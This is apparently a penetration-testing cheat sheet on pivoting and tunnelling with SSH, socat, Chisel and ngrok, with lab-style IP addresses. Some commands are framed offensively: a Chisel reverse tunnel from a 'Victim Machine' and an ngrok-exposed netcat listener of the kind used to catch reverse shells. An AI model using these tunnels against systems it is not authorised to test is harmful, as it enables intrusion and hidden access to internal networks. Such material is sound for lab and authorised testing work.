 - [SSH](#ssh)
- [Socat](#socat)
- [Chisel](#chisel)
- [Ngrok](#ngrok)
- [References](#references)

## SSH 

**Local PortForward** 

```
ssh –L 5901:10.10.10.48:4492 root@10.10.10.47
```

**Remote PortForward** 

```
ssh –R 9999:localhost:8080 root@10.10.10.48
```

## Socat 

Make sure the machine have socat and if dont please get on that machine a socat binary.

```
./socat tcp-listen:9999,fork tcp:127.0.0.1:25 &
```


## Chisel 

Please make sure both are the same version. Please download the latest release of Chisel on the link below:

https://github.com/jpillora/chisel/releases

```
#On Our Machine
./chisel server -p 4442 -v -reverse

#On Victim Machine
chisel64.exe client 10.10.14.8:4442 R:8200:127.0.0.1:8888
```

## Ngrok 

**Ngrok** - a cross-platform application that enables developers to expose a local development server to the Internet with minimal effort

1. Sign Up - https://dashboard.ngrok.com/

2. Download suitable ngrok for your OS

3. unzip /path/to/ngrok.zip

4. ./ngrok authtoken <AUTH-TOKEN>

```
#TCP
./ngrok tcp 9001

-> Then nc -lnvp 9001

#HTTP
./ngrok http 9001

-> Then python -m SimpleHTTPServer 9001
```


# References 
[1] https://phoenixnap.com/kb/ssh-port-forwarding#htoc-remote-port-forwarding-with-openssh

[2] https://github.com/jpillora/chisel